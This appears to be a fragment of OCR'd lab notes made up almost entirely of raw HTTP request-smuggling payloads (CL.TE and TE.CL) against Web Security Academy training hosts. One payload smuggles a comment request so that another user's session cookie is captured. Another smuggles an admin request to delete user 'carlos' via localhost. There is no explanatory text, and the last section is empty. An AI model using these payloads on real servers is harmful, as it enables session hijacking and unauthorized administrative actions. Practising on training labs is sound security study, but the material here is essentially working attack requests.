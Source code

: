```

**CL.TE w/Header**

POST / HTTP/1.1
Host: acf71f8a1f345eddc0000f56001f0021.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 783
Transfer-Encoding: chunked

0
POST /post/comment HTTP/1.1
Host: ac1c1f721ebd30e9c0541639006c0008.web-security-academy.net
Cookie: session=0BuWWqgFxPjVqGHNwSzsLPaiO3EspVVi
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 102
Connection: keep-alive

csrf=qTJKlDhPrsaejyG75wXWWpUN8chxgI9v&postId=6&name=rrr&email=admin%40admin.min&website=&comment=test1POST /post/comment HTTP/1.1
Host: ac001f691eefa296c06906df006100eb.web-security-academy.net
Cookie: session=E2UEMjsoaOROqMNNacONYRfeHSu72oO1
Content-Type: application/x-www-form-urlencoded
Content-Length: 850

csrf=3YiinGWwJFKC23Odz76V3PtjQGjNmQLJ&postId=8&name=carlos&email=carlos%40carlo.com&website=&comment=ddd
POST / HTTP/1.1
Host: acf71f8a1f345eddc0000f56001f0021.web-security-academy.net
Cookie: session=m4e6JihcaYRcW5PC16lXj0tX8cgztgux
Content-Length: 250
Connection: close

search=

=====

# TE.CL Payload

POST / HTTP/1.1
Host: acd71f9d1f4b2cc9c03068760067007d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 4
Transfer-Encoding: chunked

45
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost





0

=====


# CL.TE Payload


```